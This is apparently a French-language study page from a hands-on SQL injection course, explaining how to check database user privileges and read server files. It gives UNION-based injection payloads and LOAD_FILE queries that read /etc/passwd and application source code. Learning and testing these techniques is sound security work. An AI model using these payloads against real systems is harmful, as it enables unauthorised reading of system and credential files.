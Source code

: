```yaml
---
title:  "Lecture de Fichiers"
category: "Exploitation"
tag: "Principes de base de l'injection SQL"
---
```

Au dela de la récupération de données concernant les tables et BDD dans le SGBD, une injection SQL peut aussi être utilisé pour effectuer de nombreuses autres opérations, telles que la lecture et l'écriture de fichiers sur un serveur et même l'exécution de code à distance (RCE) sur le serveur distant.

> Lire des données est bien plus commun que d'en écrire, qui est réservé aux utilisateurs ayant les privilèges adéquat dans les SGBD modernes. Sur **MySQL** par exemple, l'utilisateur doit avoir le privilège **FILE** avant de pouvoir charger un fichier dans une table.

# Identification de l'utilisateur DB

Il est nécessaire de d'abord identifier quel utilisateur nous sommes dans la base de données ainsi que nos privilèges. Dans les SGBD modernes, il faut être **DBA** (database Admin) pour avoir le privilège de lecture/écriture de fichier.

Pour déterminer cela, nous pouvons utiliser les commandes suivantes :

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Avec une injection de tye **UNION**
```sql
cn' UNION SELECT 1, user(), 3, 4-- -
ou
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
Dans notre cas, nous sommes root.

<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/readingFiles1.png" alt="Alt text"></center>

# Privilège de l'utilisateur

Vérification du privilège super-admin (avec éventuellement WHERE user="ourUser" ):

```sql
SELECT super_priv FROM mysql.user
```

Affichage des autres privilèges :

```sql
SELECT grantee, privilege_type FROM information_schema.user_privileges 
```
<center><img src="/assets/images/htbAcademy/SQLInjectionFundamentals/readingFiles2.png" alt="Alt text"></center>

Si on a le droit **FILE** comme dans l'exemple ici, nous pouvons lire les fichiers (et peut être même écrire).


# LOAD_FILE()

Une fois que l'on sait que nousavons les privilèges pour lire les fichiers du système local, nous pouvons utiliser la fonction **LOAD_FILE()**. **[LOAD_FILE](https://mariadb.com/kb/en/load_file/)** peut être utilisé avec **MariaDB / MySQL** pour lire les données provenant d'un fichier.

```sql
SELECT LOAD_FILE('/etc/passwd');
SELECT LOAD_FILE('/var/www/html/search.php');
```

> Remarque : nous ne pourrons lire le fichier que si l'utilisateur du système d'exploitation qui exécute MySQL dispose des privilèges suffisants pour le lire.

On peut utiliser les injections sql pour récupérer des informations sensibles contenues dans des fichiers comme le code source d'une application.


